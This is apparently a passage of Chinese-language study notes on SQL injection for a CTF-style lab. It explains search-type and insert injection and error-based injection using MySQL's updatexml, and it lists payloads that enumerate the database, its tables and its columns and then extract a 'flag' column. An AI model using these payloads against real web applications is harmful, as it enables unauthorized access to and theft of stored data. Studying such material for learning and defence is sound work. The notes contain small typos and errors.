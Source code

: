 ## 3.搜索型注入
```
select from 表名 where username like ' %k% ';

```
* 构造闭合：%'
## 4.insert注入
* 语句：
```
insert into member(username,pw,sex,phonenum,email,address) values('必填字段','必填字段','xx','xx','xx','xx','xx',)
```
* playload:
```
 bob' or updatexml(1,concat(0x7e,database()),0) or '
```
## 5.盲注
### 3.1报错注入
* delete/update/insert
* 使用条件：页面有数据库的报错信息
* 判断是否报错
```
?id=1' -- a
```
#### 相关知识：
* **updatexml**
updatexml(xml_doument,XPath_string,new_value)
第一个参数：XML的内容
第二个参数：是需要update的位置XPATH路径
第三个参数：是更新后的内容
所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式
* 0x7e 为符号'~'，因为不符合xpath语法，因此会报错，并把校验失败的东西爆出来。

---
* 一些名词
`column_name:列的名称`
`Information_schema.columns:表示所有的列的信息`
`Information_schema:表示所有信息，包括库、表、列`
`Information_schema.tables:表示所有的表的信息`
`table_schema:数据库的名称`
`table_name:表的名称`
---

* **注入方式：**
* 查库
```sql
?id=1 union select updataxml(1,concat(0x7e,database(),0x7e),1)
```
* 查表
```sql
?id=1 union select updatexml(1,concat(0x7e,(select (group_concat(table_name)) from information_schema.tables where table_schema=database()),0x7e),1)
```
* 查列名
```sql
id=1 union select updatexml(1,concat(0x7e,(select (group_concat(column_name)) from information_schema.columns where table_name='flag'),0x7e),1)
```
* 查flag列内容
```sql
id=1 union select updatexml(1,concat(0x7e,(select (group_concat(flag)) from sqli.flag ),0x7e),1)
```